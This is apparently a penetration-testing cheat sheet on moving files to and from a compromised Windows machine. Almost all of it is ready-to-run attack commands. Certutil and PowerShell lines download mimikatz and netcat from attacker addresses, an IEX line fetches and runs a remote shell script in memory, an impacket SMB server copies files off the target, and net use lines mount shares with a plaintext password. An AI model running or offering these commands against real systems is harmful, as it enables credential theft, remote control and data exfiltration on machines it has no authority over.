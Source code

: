Set up simple webserver using python. 
```
python3 -m http.server 80
```


__CMD__

Use cmd to download files. 
``` 
certutil -urlcache -split -f "http://10.10.10.17/mimikatz.exe" mim.exe
certutil.exe -urlcache -split -f "http://10.10.10.17/mimikatz.exe" %TMP%\mim.exe
``` 

__Powershell__

Use Powershell to download files. 
```
powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.14.17/nc.exe','c:\temp\nc.exe')
powershell.exe -c (Start-BitsTransfer -Source "http://10.10.14.17/nc.exe -Destination C:\temp\nc.exe")
powershell.exe wget "http://10.10.14.17/nc.exe" -outfile "c:\temp\nc.exe"
IEX (new-object System.Net.WebClient).DownloadString('http://10.10.14.13/shell.ps1')
wget
curl
powershell -c -e {base64} 
``` 

__SMB__

Set up smb share to copy files.
```
kali) 	python /usr/share/doc/python-impacket/examples/smbserver.py APPEL /tmp/APPEL
Wind) 	net view \\10.10.10.158

		dir \\10.10.10.17\APPEL
	
		Download a file
		copy \\10.10.10.17\APPEL\nc.exe .

		From target to attacker
		copy nc2.exe \\10.10.14.17\SHARE\nc2.exe
```

#### Mounting shares

cmd stuff

```
net use Y: \\10.10.10.25\C$ /USER:Pieter "Welkom01" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:Pieter "Welkom01" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:FEEST\Pieter "Welkom01" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:.\Pieter "Welkom01" /PERSISTENT:YES
```

Without creds (currentuser)
```
net use Y: \\127.0.0.1\C$
```
